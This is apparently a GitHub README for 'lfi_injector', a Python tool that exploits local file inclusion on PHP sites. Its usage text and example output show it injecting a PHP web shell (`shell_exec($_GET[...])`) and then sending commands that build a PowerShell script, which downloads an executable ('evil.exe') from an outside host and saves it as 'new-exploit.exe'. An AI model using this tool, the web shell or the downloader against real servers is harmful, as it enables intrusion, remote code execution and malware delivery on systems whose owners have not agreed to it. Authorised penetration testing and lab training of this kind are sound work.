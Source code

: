 # lfi_injector

Reads code (or anything else) from a file, url encodes it, and makes a request for each line, so as to attempt to gain LFI code execution. Use of the `inject` parameter will precede the requests with the necessary php code (otherwise, this will need to be done manually).

## Usage

```
usage: lfi_injector.py [-h] -f FILE -u URL -p PARAMETER [-v] {inject} ...

positional arguments:
  {inject}              inject -h for details

optional arguments:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  file with code to send
  -u URL, --url URL     full vulnerable url (minus injected parameter
  -p PARAMETER, --parameter PARAMETER
                        injected parameter (ex: cmd)
  -v, --verbose         v: increased detail; vv: even more detail
  ```
  
  ### inject
  
  ```
  usage: lfi_injector.py inject [-h] [--port PORT] target

positional arguments:
  target       target to inject parser

optional arguments:
  -h, --help   show this help message and exit
  --port PORT  port to inject (default: 80)
  ```
  
  ## Example
  
  ```
python .\lfi_injector.py -f testfile -u http://127.0.0.1:8997?name=shrek -p t3st -v inject 127.0.0.1 --port=8997
[+] inject php parameter parser enabled
[+] connecting to 127.0.0.1 on port 8997
[+] injecting: <?php echo shell_exec($_GET['t3st']);?>
[+] url: http://127.0.0.1:8997?name=shrek, parameter: t3st
[+] code read from file: testfile
[+] sending requests...
[+] sending: http://127.0.0.1:8997?name=shrek&t3st=echo+%24storageDir+%3D+%24pwd+%3E+wget.ps1
[+] success!
[+] sending: http://127.0.0.1:8997?name=shrek&t3st=echo+%24webclient+%3D+New-Object+System.Net.WebClient+%3E%3Ewget.ps1
[+] success!
[+] sending: http://127.0.0.1:8997?name=shrek&t3st=echo+%24url+%3D+%22http%3A%2F%2F10.11.0.5%2Fevil.exe%22+%3E%3Ewget.ps1
[+] success!
[+] sending: http://127.0.0.1:8997?name=shrek&t3st=echo+%24file+%3D+%22new-exploit.exe%22+%3E%3Ewget.ps1
[+] success!
[+] sending: http://127.0.0.1:8997?name=shrek&t3st=echo+%24webclient.DownloadFile%28%24url%2C%24file%29+%3E%3Ewget.ps1
[+] success!
[+] 100% successful transfer!
```

# TODO

Definitely still needs a little work, but wanted to gice a placeholder for now...
